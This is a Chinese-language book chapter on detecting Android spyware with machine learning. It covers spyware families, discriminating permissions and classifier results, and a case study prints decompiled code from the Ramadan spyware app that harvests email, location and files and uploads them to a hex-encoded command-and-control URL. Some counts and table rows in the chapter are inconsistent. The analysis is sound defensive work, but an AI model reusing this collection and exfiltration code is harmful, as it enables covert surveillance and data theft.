


# 第八章：间谍软件**


间谍软件是一种恶意软件，旨在从尽可能多的用户那里收集特定信息。攻击者可能以多种方式利用这些信息，例如发送伪装成受害者发出的钓鱼信息，或窃取受害者银行账户中的资金。

一些间谍软件属于多个类别。例如，常见的间谍软件既充当银行木马，也作为后门。从检测的角度来看，这可能会导致各种恶意软件类别的机器学习特征重叠，因此很少能清晰地区分不同类型的恶意软件及其特性。

### **间谍软件家族**

本节介绍了我们在第二章中没有讨论的几个著名间谍软件家族，首先是 UaPush，这是平台上最早广泛传播的例子之一。从 2011 年开始，UaPush 通过发送短信并窃取受感染设备的用户信息传播。它作为 SDK 分发，通过使用它的应用程序进入设备，这些应用程序是通过广告利润分享协议与 SDK 绑定的。

由 F-Secure 在 2013 年描述的 Pincer 是一种伪装成安全证书的恶意软件，文件名为*Certificate.apk*。它的间谍软件功能包括捕获已感染设备的 IMEI、序列号和 Android 版本信息，以及用户的电话号码、运营商和其他信息。它还可以检查自己是否在沙箱中运行。值得注意的是，Pincer 拦截短信流量并将其转发到指挥控制服务器，这理论上可以使黑客突破双重认证并向受害者显示误导性信息，令其保持在不知情的状态。

HeHe 恶意软件也利用其间谍软件功能来破坏双重认证。它通过伪装成操作系统的安全更新来渗透手机。为了利用其拦截短信流量和电话的能力，它从指挥控制中心下载了一些有价值的电话号码列表，包括银行的电话号码，允许它拦截双重认证事件以及警告受害者可疑活动的电话。

USBCleaver 同样是 F-Secure 在 2013 年发现的，它通过第三方应用商店分发的应用程序或其他恶意应用程序进入设备。有趣的是，当受感染的设备连接到计算机时，USBCleaver 能够通过 USB 窃取浏览器和 Wi-Fi 密码，并将其发送到指挥控制服务器。

尽管最早是在 2014 年被发现，Acecard 在几个月内没有表现出恶意行为。它伪装成各种无害应用程序，如游戏或假冒的 Flash 播放器，并在安装后请求设备拥有者提供管理员权限。2015 年，它开始表现出恶意行为。为了作为一款银行木马，它窃取用户信息，例如通过在社交媒体登录窗口上覆盖假冒窗口。卡巴斯基在 2016 年的一系列博客文章中详细描述了这种间谍软件，文章以《Acecard 木马：30 多款银行和支付应用的安卓用户面临风险》为开篇。

一个较新的例子是 Qibla Compass Ramadan 2022，该应用声称帮助穆斯林用户在斋月期间安排祈祷、禁食和其他活动。实际上，它追踪了数百万人的运动，并窃取了他们设备中的敏感文件。*华尔街日报*和*福布斯*都声称，这款恶意软件背后的公司与美国国防和情报机构有关联。我们将在本章后面详细分析这个应用的恶意功能。

### **间谍软件与良性软件的对比**

图 8-1 显示了使用随机森林分类器（在第五章中讨论）区分安卓间谍软件和良性软件的 25 个特征。



*图 8-1：最能区分安卓间谍软件和良性软件的 25 个特征*

如你所见，这 14 个特征中，有 14 个与权限相关，4 个是静态特征，2 个是动态特征。我们将重点讨论与权限相关的特征。

#### ***与权限相关的特征***

许多区分间谍软件和良性软件的最重要特征都涉及权限，其中四个特征与短信功能有关。`SEND_SMS`、`RECEIVE_SMS`、`WRITE_SMS`和`READ_SMS`权限使间谍软件能够接收和读取消息（例如来自银行和在线市场的消息），以收集信息，并将这些信息发送到其指挥与控制中心。一旦信息到达指挥与控制中心，恶意软件开发者可能会将这些信息在线出售，或者用来进行各种类型的欺诈，如信用卡或银行欺诈。`WRITE_SMS`和`SEND_SMS`权限也可以用于例如从设备拥有者的手机向其联系人发送钓鱼链接，目的是感染联系人的设备。间谍软件请求这四项权限的概率远高于良性软件请求这些权限的概率。

文件大小也是一个重要因素。图 8-1 显示，间谍软件通常比良性软件小得多。我们推测这是因为间谍软件需要的空间资源较少，比如合法应用程序通常需要的大容量高分辨率媒体。间谍软件可能还使用较少的第三方 SDK，这也进一步减少了它们的文件大小。

如前一章所述，`READ_PHONE_STATE` 权限使黑客能够捕获设备信息，如 IMEI 和 IMSI 号码。间谍软件请求这些权限的概率是良性软件的两倍以上。这些值在出售和购买被盗数据时尤其有用，因为这些硬件标识符的唯一性质使它们成为连接来自不同来源的数据集的便捷主键。

同样，间谍软件请求 `GET_TASKS` 权限的频率是良性软件的三倍以上。这个权限我们在前一章中遇到过，它使应用能够查看设备上正在运行的进程。应用可能会利用此权限，例如检测与防病毒程序相关的进程，或跟踪应用使用数据以收集并出售给营销商。请注意，此权限自 Android 5.0（Lollipop）以来已被弃用，因此在本书撰写时不太可能产生任何影响。

`SYSTEM_ALERT_WINDOW` 权限是间谍软件请求的另一个频率超过良性软件两倍的权限。间谍软件可以利用它通过在其他应用上方显示弹出窗口来窃取用户 ID、密码、信用卡信息、银行账户号码等，用户往往误以为这些窗口与应用相关。这种行为在银行钓鱼恶意软件中常见；正如我们所提到的，间谍软件通常具有多重功能，因此将其特性按类别清晰区分并非总是可能的。

最后，尽管在这两类中都相对不常见，间谍软件请求特权 `MOUNT_UNMOUNT_FILESYSTEMS` 权限的频率是良性软件的两倍以上。恶意软件开发人员可以利用此权限将像 BusyBox 这样的实用程序加载到设备上，前提是间谍软件已经提升了其权限。

图 8-1 展示了间谍软件比良性软件请求更多的几个重要权限，以及以下特征：

num_std_permissions 表示在清单中声明的、由官方 Android 开发者指南定义的权限数量，无论它们是否被视为危险权限

num_std_permissions_dangerous 表示被视为危险权限的数量，因为它们授予应用程序更高的访问受限数据的权限或允许其执行受限操作

num_non_std_permissions 表示在清单中声明的、由官方 Android SDK 以外的来源定义的权限数量

#### ***预测效果***

表 8-1 展示了不同机器学习分类器在预测一个应用是间谍软件还是良性软件时的表现，基于不同的特征集。

**表 8-1：** 评估 Android 间谍软件与良性软件的指标

| **特征集** | **最佳分类器** | **AUC** | **精确率** | **召回率** | **F1 值** | **假正例率** | **假负例率** |
| --- | --- | --- | --- | --- | --- | --- | --- |
| API package | RF | 0.9959 | 0.9786 | 0.9741 | 0.9764 | 0.0214 | 0.0338 |
| Static (S) | XGBoost | 0.9911 | 0.9627 | 0.9621 | 0.9624 | 0.0373 | 0.0381 |
| Dynamic (D) | RF | 0.9532 | 0.8527 | 0.9708 | 0.9079 | 0.1473 | 0.0342 |
| S + D | XGBoost | 0.9943 | 0.9620 | 0.9711 | 0.9665 | 0.0380 | 0.0294 |
| API + S + D | XGBoost | 0.9982 | 0.9824 | 0.9848 | 0.9836 | 0.0176 | 0.0187 |
| TSG | RF | 0.9953 | 0.9800 | 0.9691 | 0.9745 | 0.0200 | 0.0401 |
| LM | RF | 0.8625 | 0.7342 | 0.9266 | 0.8193 | 0.2658 | 0.1327 |
| FC | RF | 0.9896 | 0.9645 | 0.9590 | 0.9617 | 0.0355 | 0.0500 |
| CG | GBDT | 0.9629 | 0.9329 | 0.9339 | 0.9334 | 0.0671 | 0.0812 |
| API + S + D + TSG | XGBoost | 0.9989 | 0.9894 | 0.9875 | 0.9884 | 0.0106 | 0.0153 |
| API + S + D + LM | XGBoost | 0.9981 | 0.9824 | 0.9845 | 0.9834 | 0.0176 | 0.0191 |
| API + S + D + FC | XGBoost | 0.9982 | 0.9824 | 0.9856 | 0.9840 | 0.0176 | 0.0177 |
| API + S + D + CG | XGBoost | 0.9983 | 0.9840 | 0.9845 | 0.9842 | 0.0160 | 0.0190 |
| 所有特征 | XGBoost | 0.9988 | 0.9875 | 0.9864 | 0.9869 | 0.0125 | 0.0167 |
| 最佳晚期融合 | XGBoost | 1.0000 | 1.0000 | 1.0000 | **1.0000** | 0.0000 | 0.0000 |

与上一章一样，这些行表示使用的特征类型：API 包、静态、动态、基于 TSG、基于地标、基于特征聚类和基于关联图。我们还展示了这些特征的组合。我们已经标明了每种类型或特征组合的最佳分类器，并提供了各种预测性能指标。最后一行展示了晚期融合的结果。

如你所见，使用 XGBoost 分类器的晚期融合提供了极好的结果，在我们测试中使用的数据上几乎没有错误。这是令人惊讶的，因为几乎没有机器学习算法能达到 100%的性能。

### **间谍软件与其他恶意软件**

现在我们来探讨间谍软件与其他类型恶意软件的区别。图 8-2 展示了用于此目的的前 25 个特征。

在这里，大多数区分间谍软件与其他恶意软件的特征（前 25 个特征中有 13 个）都与权限相关，因此我们将重点讨论这些特征。

#### ***与权限相关的特征***

如果你查看分类器的结果，你可能会注意到一个有趣的现象：与短信相关的权限明显缺失。这是因为许多类型的恶意软件，不仅仅是间谍软件，都寻求这些权限。

`CALL_PHONE` 权限是一个显著的特征。我们发现，间谍软件请求此权限的频率几乎是其他类型恶意软件的三倍。这个权限可以用于多种用途，例如，挂断电话（比如银行打电话确认客户是否进行了购买）。在我们观察到的间谍软件中，`CALL_PHONE` 权限通常是由具备高级功能的应用程序请求的，这些应用程序往往属于特洛伊木马或后门类别。

之前章节中没有涉及到的重要权限`ACCESS_FINE_LOCATION`提供了非常有价值的信息。拥有此权限的应用通常可以准确定位受害者的位置，误差范围通常只有几米。攻击者可以利用这些信息进行多种用途。例如，他们可以建立一个模型，记录受害者通常出现在某一特定位置的星期几和时间（比如，每周一上午 11 点到 12 点在某个咖啡店，或者每周四下午 3 点到 4 点在谷歌校园 B 楼开会）。他们还可以推断受害者经常光顾哪些商店，并以此来判断他们是否是合适的目标：例如，进入较贵商店（如 Whole Foods、Nordstrom 和 Neiman Marcus）的用户可能会引起更多注意，因为他们看起来比主要光顾便利店（如 7-Eleven）的用户更富有。我们认为，这种关于个人的精确位置数据是数据市场上最受追捧的数据。



*图 8-2：最能区分安卓间谍软件与其他恶意软件的前 25 个特征*

`RECORD_AUDIO`权限可能是一个让人不寒而栗的权限。许多合法应用需要录音，比如语音记录器和在线会议应用。然而，如果恶意软件录制了电话通话，攻击者可能会获取敏感信息。虽然没有哪种恶意软件频繁请求此权限，但间谍软件请求此权限的概率要远高于其他恶意软件请求此权限的概率。

`READ_EXTERNAL_STORAGE`和`WRITE_EXTERNAL_STORAGE`权限几乎同样被间谍软件和其他恶意软件请求。这些权限使得恶意软件能够读取和写入设备的 SD 卡，而其他应用程序可能会在 SD 卡上存储潜在的敏感文件。我们看到的一个特别有趣的`WRITE_EXTERNAL_STORAGE`用途是，在一个名为 Claco 的高级间谍软件和木马应用中，恶意软件将文件存储在 SD 卡上，目的是感染通过 USB 连接到安卓设备的 Windows 系统。需要注意的是，自从安卓 10 引入了作用域存储后，大多数先前可访问的敏感文件应该不再能够被没有权限的间谍软件应用访问。

我们在前一章节中讨论了重要的`KILL_BACKGROUND_PROCESSES`权限。间谍软件可以利用它终止某个应用程序的后台进程，例如杀毒软件的后台进程。最后，一些帮助我们区分间谍软件与良性软件的特性，也可以帮助我们区分间谍软件与其他恶意软件。这些特性包括`SYSTEM_ALERT_WINDOW`、`MOUNT_UNMOUNT_FILESYSTEMS`、`READ_PHONE_STATE`和`ACCESS_NETWORK_STATE`权限，以及像`filesize`、`num_std_permissions`和`num_non_std_permissions`这样的特性。寻求的危险权限数量是区分间谍软件与良性软件的一个重要特征，但在区分间谍软件与其他类型的恶意软件时，这个特征似乎不那么重要。

#### ***预测效能***

表 8-2 展示了机器学习分类器在将间谍软件与其他类型的恶意软件区分开时的预测表现。

虽然最佳的 F1 分数略低于我们在区分间谍软件和良性软件时获得的结果，但这种下降可以忽略不计。结果表明，机器学习能够非常好地将间谍软件与良性软件区分开来。

**表 8-2：** 评估 Android 间谍软件与其他恶意软件的指标

| **特征集** | **最佳分类器** | **AUC** | **精度** | **召回率** | **F1 分数** | **假阳性率** | **假阴性率** |
| --- | --- | --- | --- | --- | --- | --- | --- |
| API 包 | GBDT | 0.9101 | 0.8475 | 0.8379 | 0.8427 | 0.1525 | 0.1610 |
| 静态 (S) | XGBoost | 0.9156 | 0.8513 | 0.8401 | 0.8456 | 0.1487 | 0.1592 |
| 动态 (D) | MLP | 0.8394 | 0.8100 | 0.6378 | 0.7137 | 0.1900 | 0.3008 |
| S + D | XGBoost | 0.9138 | 0.8560 | 0.8391 | 0.8475 | 0.1440 | 0.1591 |
| API + S + D | XGBoost | 0.9447 | 0.8794 | 0.8794 | 0.8794 | 0.1206 | 0.1214 |
| TSG | RF | 0.6943 | 0.6567 | 0.6635 | 0.6601 | 0.3433 | 0.3423 |
| LM | GBDT | 0.8231 | 0.7353 | 0.7540 | 0.7445 | 0.2647 | 0.2541 |
| FC | SVM | 0.5047 | 0.5028 | 1.0000 | 0.6692 | 0.4972 | 0.0000 |
| CG | XGBoost | 0.9431 | 0.8789 | 0.8822 | 0.8805 | 0.1211 | 0.1190 |
| API + S + D + TSG | XGBoost | 0.9457 | 0.8845 | 0.8803 | 0.8824 | 0.1155 | 0.1199 |
| API + S + D + LM | XGBoost | 0.9439 | 0.8845 | 0.8803 | 0.8824 | 0.1155 | 0.1199 |
| API + S + D + FC | GBDT | 0.9099 | 0.8476 | 0.8388 | 0.8432 | 0.1524 | 0.1603 |
| API + S + D + CG | XGBoost | 0.9156 | 0.8513 | 0.8401 | 0.8456 | 0.1487 | 0.1592 |
| 所有特征 | MLP | 0.8394 | 0.8100 | 0.6378 | 0.7137 | 0.1900 | 0.3008 |
| 最佳晚期融合 | XGBoost | 0.9998 | 0.9997 | 0.9997 | **0.9997** | 0.0003 | 0.0009 |

### **朝向罗马丹：案例研究**

现在我们考虑“朝向罗马丹”恶意软件的案例，我们将其简称为“罗马丹”。卡尔加里大学和加利福尼亚大学伯克利分校的研究人员发现了它，以及其他一些针对穆斯林的恶意应用程序。在 2022 年 4 月 6 日发布的《*福布斯*报道谷歌已封禁数十个包含间谍软件的应用程序》一文中，*福布斯*声称这些应用程序包含来自一家位于巴拿马的公司的代码，该公司支付给应用开发者，要求他们将恶意功能集成进应用中，这些功能收集看似合法公司需要的数据，例如电子邮件地址和带有敏感内容的文件。根据*福布斯*的报道，该巴拿马公司与一家有兴趣于网络安全的美国防务承包商有联系，这表明美国情报或国防机构可能利用这些应用程序针对数百万穆斯林进行监控。谷歌在 2022 年 4 月封锁了罗马丹和其他相关应用程序。

无论开发者的动机如何，我们的机器学习算法都正确预测了该应用程序不是良性软件，而是间谍软件。清单 8-1 显示了 *ramadan.com.ramadan*（v4, 9cef）请求的权限。

```
<?xml version="1.0" encoding="utf-8"?>
<manifest  
    android:versionCode="4" android:versionName="1.1.2" android:compileSdkVersion="28" 
    android:compileSdkVersionCodename="9" package="ramadan.com.ramadan" 
    platformBuildVersionCode="4" platformBuildVersionName="1.1.2">
  <uses-sdk android:minSdkVersion="15" android:targetSdkVersion="28"/>
  <uses-permission android:name="android.permission.INTERNET"/>
  <uses-permission android:name="android.permission.ACCESS_COARSE_LOCATION"/>
  <uses-permission android:name="android.permission.ACCESS_FINE_LOCATION"/>
  <uses-permission android:name="android.permission.RECEIVE_BOOT_COMPLETED"/>
  <uses-permission android:name="android.permission.WRITE_EXTERNAL_STORAGE"/>
  <uses-permission android:name="android.permission.READ_PHONE_STATE"/>
  <uses-permission android:name="android.permission.READ_CONTACTS"/>
  <uses-permission android:name="android.permission.GET_ACCOUNTS"/>
  <uses-permission android:name="android.permission.ACCESS_NETWORK_STATE"/>
```

*列表 8-1：Ramadan 恶意软件请求的所有权限*

如你所见，这里请求了许多有助于区分间谍软件与良性软件的权限，包括 `READ_PHONE_STATE` 和 `RECEIVE_BOOT_COMPLETED`。我们还看到恶意软件请求了 `READ_CONTACTS` 和 `GET_ACCOUNTS` 权限，这可能使得该应用窃取受害者的全部联系人列表并查看他们的账户信息。

然而，代码分析显示，这个特定的应用实际上并没有执行这些操作。相反，列表 8-2 展示了 Ramadan 应用通过访问目标手机上由应用创建的账户来识别用户的电子邮件地址。恶意软件通过遍历所有注册账户，查找与正则表达式模式匹配的名称来完成此操作。

```
public String b() {
  String str = "Device EMAIL_ID Not Configured";
  try {
    if (a(new String[]{
      "android.permission.READ_CONTACTS", 
      "android.permission.GET_ACCOUNTS"}))
    {
      for (Account account : AccountManager.get(a).getAccounts()) {
        if (Patterns.EMAIL_ADDRESS.matcher(account.name).matches()) {
          str = account.name.trim();
        }
      }
    }
    return str;
  } catch (Exception e) {
    aui.a("UtilityHead", "exception :" + e.toString(), a);
    return str;
  }
}
```

*列表 8-2：Ramadan 应用确定手机用户的电子邮件地址*

此外，该应用请求了 `ACCESS_COARSE_LOCATION` 和 `ACCESS_FINE_LOCATION` 权限，这对于区分间谍软件与其他形式的恶意软件非常有用。列表 8-3 展示了它以粗粒度访问位置数据，包括用户的国家和行政区域。

```
public Void doInBackground(Void... voidArr) {
  try {
    QiblaActivity.this.s = QiblaActivity.this.m();
    QiblaActivity.v = QiblaActivity.this.a(
      QiblaActivity.this.n, QiblaActivity.this.o,
      QiblaActivity.this.t, QiblaActivity.this.u);
    this.a = String.valueOf(QiblaActivity.this.s / 1000);
    List<Address> fromLocation = new Geocoder(
      QiblaActivity.this, Locale.ENGLISH).getFromLocation(
        QiblaActivity.this.n, QiblaActivity.this.o, 1);
    if (fromLocation.size() <= 0) {
      return null;
    }
    QiblaActivity qiblaActivity = QiblaActivity.this;
    String unused = qiblaActivity.z = "Location: " +
      fromLocation.get(0).getCountryName() + ", " +
      fromLocation.get(0).getAdminArea();
    return null;
  } catch (Exception unused2) {
    this.b.dismiss();
    return null;
  }
}
```

*列表 8-3：Ramadan 应用访问粗粒度位置数据*

在 列表 8-4 中，应用通过访问 `getLatitude()` 和 `getLongitude()` 函数获取精确位置数据。

```
public class GpsService extends Service implements LocationListener {
  public Context a;
  public boolean b = false;
  public boolean c = false;
  public boolean d = false;
  public Location e = null;
  public double f;
  public double g;
  public LocationManager h;

  public GpsService(Context context) {
    this.a = context;
    a();
  }

  public Location a() {
    try {
      this.h = (LocationManager) this.a.getSystemService("location");
      this.b = this.h.isProviderEnabled("gps");
      this.c = this.h.isProviderEnabled("network");
      if (!this.b && !this.c) {
        return this.e;
      }
      this.d = true;
      if (this.c) {
        this.h.requestLocationUpdates("network", 30000, 10.0f, this);
        if (this.h != null) {
          this.e = this.h.getLastKnownLocation("network");
          if (this.e != null) {
            this.f = this.e.getLatitude();
            this.g = this.e.getLongitude();
          }
        }
      }
      if (this.b && this.e == null) {
        this.h.requestLocationUpdates("gps", 30000, 10.0f, this);
        if (this.h != null) {
          this.e = this.h.getLastKnownLocation("gps");
          if (this.e != null) {
            this.f = this.e.getLatitude();
            this.g = this.e.getLongitude();
          }
        }
      }
      return this.e;
    } catch (Exception e2) {
      e2.printStackTrace();
    }
  }
}
```

*列表 8-4：Ramadan 应用访问精确位置数据*

不清楚这里访问的位置数据是间谍软件功能的一部分，还是应用的合法活动，因为代码将其发送到一个第二个 URL，而这个 URL 显然与应用的主要指挥与控制服务器或恶意软件开发者没有直接关联。

列表 8-5 显示了用于收集潜在敏感文件的关键功能。特别是，我们看到它正在查找扩展名为 *.txt*、*.apk*、*.mp3*、*.3gp*、*.opus*、*.ogg*、*.doc*、*.pdf*、*.jpeg* 和 *.jpg* 的文件。

```
public static ArrayList<File> a(File file) {
  ArrayList<File> arrayList = new ArrayList<>();
  File[] listFiles = file.listFiles();
  if (listFiles != null && listFiles.length > 0) {
    for (File file2 : listFiles) {
      if (file2.isDirectory()) {
        arrayList.addAll(a(file2));
      } 
      else if (
          file2.getName().endsWith(".txt") ||
          file2.getName().endsWith(".apk") ||
          file2.getName().endsWith(".mp3") ||
          file2.getName().endsWith(".3gp") ||
          file2.getName().endsWith(".opus") ||
          file2.getName().endsWith(".ogg") ||
          file2.getName().endsWith(".doc") ||
          file2.getName().endsWith(".pdf") ||
          file2.getName().endsWith(".jpeg") ||
          file2.getName().endsWith(".jpg")) {
        arrayList.add(file2);
      }
    }
  }
  return arrayList;
}
```

*列表 8-5：Ramadan 应用访问敏感文件*

收集文件后，恶意软件将它们上传到其指挥与控制服务器。在代码中，这个服务器的地址以简单的十六进制编码格式存储，如 列表 8-6 所示。解码该字符串会揭示 URL *https://www.salat-prayertimes.com/salat/pray/*。

```
/* renamed from: a */
public String doInBackground(Void... voidArr) {
  try {
    StringBuilder sb = new StringBuilder();
    auj auj = this.d;
    sb.append(auj.c("68747470733a2f2f7777772e73616c61742d707261796572
74696d65732e636f6d2f73616c61742f707261792f"));
    auj auj2 = this.d;
    sb.append(auj.c("73746174732e706870"));
    sb.append("?");
    String sb2 = sb.toString();
    StringBuilder sb3 = new StringBuilder();
    sb3.append("tc=");
    auj auj3 = this.d;
    sb3.append(auj.a(this.b));
    sb3.append("&tf=");
    auj auj4 = this.d;
    sb3.append(auj.a(this.c));
    String sb4 = sb3.toString();
    if (aub.a() != null) {
      return aug.a(this.a, sb2, sb4);
    }
    return null;
  } catch (Exception e2) {
    aui.a("TermSet", "exception :" + e2.toString(), this.a);
    return null;
  }
}

/* access modifiers changed from: protected */
/* renamed from: a */
public void onPostExecute(String str) {
  if (this.e.a(str)) {
    try {
      auj auj = this.d;
      this.e.b(auj.b(str));
    } catch (Exception e2) {
      aui.a("TermSet", "exception :" + e2.toString(), this.a);
    }
  }
}
```

*列表 8-6：Ramadan 应用连接到指挥与控制服务器*

有趣的是，Ramadan 并没有请求与 SMS 相关的权限。这可能是因为它主要关注收集敏感文件和个人信息，以便确定设备的拥有者。这种行为支持了恶意软件被分发用于收集情报的假设，因为通常用于盈利的功能明显缺失。

### **间谍软件应用的预测**

表 8-3 显示了我们的机器学习分类器在处理包括 Ramadan 在内的 10 个间谍软件应用时的表现，这些样本比分类器训练时所使用的样本更新。*是*值表示分类器正确地预测该样本为间谍软件。

**表 8-3：** 机器学习分类器在最新间谍软件样本上的表现

| **样本名称** | **与良性软件区分** | **与其他恶意软件区分** |
| --- | --- | --- |
| Bahamut | 是 | 是 |
| 高级加速器 | 否 | 否 |
| Ahorcado | 是 | 是 |
| Test003 | 是 | 是 |
| SeitaFool | 否 | 否 |
| Zanmer | 是 | 是 |
| DDLight | 是 | 是 |
| Dougaleaker | 是 | 否 |
| Cricketland | 是 | 否 |
| Ssucl | 是 | 是 |
| Ramadan | 是 | 是 |

请注意，我们为这些间谍软件样本分配的名称可能在安全社区中并不广为人知。

机器学习算法能够正确识别八个样本，在这些预测上实现了 80% 的召回率和 100% 的准确率。我们不能确定为什么另外两个间谍软件样本（我们称之为 Advanced Speed Booster 和 SeitaFool）未能正确分类。一个可能的原因是，这些 APK 仅窃取少量敏感信息：分别是浏览器历史记录和联系人。这些行为不需要使用诸如 `SEND_SMS`、`READ_PHONE_STATE`、`RECEIVE_SMS`、`READ_SMS` 和 `WRITE_SMS` 等权限，而这些权限是机器学习算法用来区分间谍软件与良性软件的重要特征。

### **接下来**

本章展示了机器学习如何有效地将间谍软件与良性软件和其他类型的恶意软件区分开来。在前一种情况下，权限再次发挥了重要作用，尤其是与短信相关的权限以及如 `READ_PHONE_STATE`、`GET_TASKS`、`SYSTEM_ALERT_WINDOW` 和 `MOUNT_UNMOUNT_FILESYSTEMS` 等权限。为了将间谍软件与其他类型的恶意软件区分开来，分类器依赖于不同的特征，包括 `READ_EXTERNAL_STORAGE`、`WRITE_EXTERNAL_STORAGE` 和 `ACCESS_FINE_LOCATION` 权限。

我们对 Ramadan 应用的讨论指出了 Android 用户应当警惕的另一个因素。犯罪分子并不是唯一对窃取你手机数据感兴趣的群体；政府也可能悄悄收集你的数据。你可以在 Fabio Pierazzi 等人的《基于数据的现代 Android 间谍软件特征分析》中找到更多关于 Android 间谍软件的信息。

[*OceanofPDF.com*](https://oceanofpdf.com)
